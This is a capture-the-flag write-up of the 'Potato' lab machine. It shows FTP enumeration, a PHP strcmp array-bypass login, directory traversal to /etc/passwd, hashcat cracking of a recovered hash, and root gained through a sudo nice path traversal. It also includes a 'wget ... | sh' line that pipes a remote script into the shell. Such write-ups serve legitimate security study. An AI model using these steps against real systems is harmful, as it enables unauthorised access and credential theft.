





# Potato (rough notes)

Initial service discovery:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-04-06-Potato]
└─$ nmap -v -p- -Pn -T4 potato
...

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2112/tcp open  kip
```

Again with service version fingerprinting:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-04-06-Potato]
└─$ nmap -v -p 22,80,2112 -Pn -T4 -A potato
...

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef:24:0e:ab:d2:b3:16:b4:4b:2e:27:c0:5f:48:79:8b (RSA)
|   256 f2:d8:35:3f:49:59:85:85:07:e6:a2:0e:65:7a:8c:4b (ECDSA)
|_  256 0b:23:89:c3:c0:26:d5:64:5e:93:b7:ba:f5:14:7f:3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So we have an SSH server on port 22, an HTTP server on port 80, and an FTP server which allows anonymous login on port 2112...

We'll dig into FTP first:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-04-06-Potato]
└─$ ftp anonymous@potato 2112
Connected to potato.
220 ProFTPD Server (Debian) [::ffff:192.168.241.101]
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.45.201 !
230-
230-The local time is: Sat Apr 06 22:39:59 2024
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||45527|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 ftp      ftp          4096 Aug  2  2020 .
drwxr-xr-x   2 ftp      ftp          4096 Aug  2  2020 ..
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
226 Transfer complete
ftp> get index.php.bak
local: index.php.bak remote: index.php.bak
229 Entering Extended Passive Mode (|||17228|)
150 Opening BINARY mode data connection for index.php.bak (901 bytes)
   901        3.21 MiB/s 
226 Transfer complete
901 bytes received in 00:00 (12.74 KiB/s)
ftp> get welcome.msg
local: welcome.msg remote: welcome.msg
229 Entering Extended Passive Mode (|||53447|)
150 Opening BINARY mode data connection for welcome.msg (54 bytes)
    54      439.45 KiB/s 
226 Transfer complete
54 bytes received in 00:00 (0.76 KiB/s)
```

Downloaded the two available files...

The `index.php.bak` is clearly a backup of a PHP webserver's index file.

The contents of this file give us the credentials `admin:potato`:

```
...
<?php

$pass= "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>
...
```

We'll likely be able to use these credentials against the webserver on port 80...

Checking out the webserver on port 80 in chrome (and attempting to POST to it with HTTPie)... it seems that the index source code we found earlier is not for the root path on the webserver.



We'll enumerate paths with `gobuster`:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-04-06-Potato]
└─$ gobuster dir -u http://potato/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x '.php,.html'
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://potato/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 271]
/index.php            (Status: 200) [Size: 245]
/.html                (Status: 403) [Size: 271]
/admin                (Status: 301) [Size: 300] [--> http://potato/admin/]
...
```

We found an `/admin` path, that's promising:



Unfortunately, the credentials we found earlier (`admin:potato`) do not work.

Tried them on the webui and also with HTTPie:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-04-06-Potato]
└─$ http --form POST http://potato/admin/index.php?login=1 username=admin password=potato submit=Login
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 115
Content-Type: text/html; charset=UTF-8
Date: Sat, 06 Apr 2024 22:57:51 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding

<html>
<head></head>
<body>

<p>Bad user/password! </br> Return to the <a href="index.php">login page</a> <p>
```

Looking at the presumed copy of the source code, I notice that the password comparison uses `strcmp`, which means we can potentially bypass the authentication by simply changing the input type of the `passowrd` field to an array.

That worked!

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-04-06-Potato]
└─$ http --form POST http://potato/admin/index.php?login=1 username="admin" password[]="" submit="Login"
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 98
Content-Type: text/html; charset=UTF-8
Date: Sat, 06 Apr 2024 23:17:13 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.41 (Ubuntu)
Set-Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh; expires=Sun, 06-Apr-2025 23:17:13 GMT; Max-Age=31536000
Vary: Accept-Encoding

<html>
<head></head>
<body>

Welcome! </br> Go to the <a href="dashboard.php">dashboard</a>
```

The `Set-Cookie` header gave away the password, so now we can use it in the browser.

And after following the dashboard hyperlink we arrive at the "admin area":



I first look at the ping page to see if we can append to the ping command being executed, as I know that way we can try to get a reverse shell.

Unfortunately it doesn't seem possible. The logs page on the other hand... if we inspect the page source we can see that we can pass whatever filename we want into the POST form:



After trying a few levels of directory traversal, we manage to get the contents of the `/etc/passwd` file:



Including a hash which we can try to crack with hashcat!

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-04-06-Potato/files]
└─$ hashcat hashes.txt /usr/share/wordlists/john.lst 
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i7-6700HQ CPU @ 2.60GHz, 6892/13849 MB (2048 MB allocatable), 8MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

500 | md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5) | Operating System

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 2 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/john.lst
* Passwords.: 3559
* Bytes.....: 26326
* Keyspace..: 3559
* Runtime...: 0 secs

$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:dragon                 
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 500 (md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5))
Hash.Target......: $1$webadmin$3sXBxGUtDGIFAcnNTNhi6/
Time.Started.....: Sat Apr  6 16:56:19 2024 (0 secs)
Time.Estimated...: Sat Apr  6 16:56:19 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/john.lst)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    24472 H/s (10.02ms) @ Accel:128 Loops:250 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1024/3559 (28.77%)
Rejected.........: 0/1024 (0.00%)
Restore.Point....: 0/3559 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:750-1000
Candidate.Engine.: Device Generator
Candidates.#1....: #!comment: This list has been compiled by Solar Designer of Openwall Project -> pinkfloyd
Hardware.Mon.#1..: Temp: 64c Util: 13%

Started: Sat Apr  6 16:56:02 2024
Stopped: Sat Apr  6 16:56:21 2024
```

Pretty quickly we find that the password for user `webadmin` is `dragon`.

We try our new credentials against the ssh server:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-04-06-Potato/files]
└─$ ssh webadmin@potato
webadmin@potato's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 06 Apr 2024 11:59:03 PM UTC

  System load:  0.0                Processes:               151
  Usage of /:   12.6% of 31.37GB   Users logged in:         0
  Memory usage: 28%                IPv4 address for ens192: 192.168.241.101
  Swap usage:   0%


118 updates can be installed immediately.
33 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

webadmin@serv:~$
```

Success!

We find our access flag:

```
webadmin@serv:~$ cat local.txt
4f3a3515800d04b8ff8e3d665e15bc07
```

Time for LINPeas!

```
webadmin@serv:~$ which wget
/usr/bin/wget
webadmin@serv:~$ wget -O- --timeout 3 --tries 1 https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
--2024-04-07 00:00:31--  https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
...
```

Some findings:

- User `florianges` is a sudoer:

```
╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)
uid=1000(florianges) gid=1000(florianges) groups=1000(florianges),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
uid=1001(webadmin) gid=1001(webadmin) groups=1001(webadmin)
```

- Some binaries with potentially exploitable versions:

```
-rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 31K Aug 16  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-x 1 root root 128K Jul 10  2020 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
```

I also ran `sudo -l` to figure out what I can do with sudo if anything:

```
webadmin@serv:~/downloads$ sudo -l
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```

Can run `/bin/nice` against anything in `/notes/*`! I bet we can even do `sudo nice /notes/../home/webadmin/my-bad-script.sh`.

I write such a `my-bad-script.sh` to just invoke a privileged shell e.g. `sh -p`.

We get root!

```
webadmin@serv:/notes$ sudo nice /notes/../home/webadmin/my-bad-script.sh
# whoami
root
```

We collect our proof from the root directory:

```
# cd /root
# cat proof.txt
c3f681457c2e2905d896a0c5cc5a2a88
```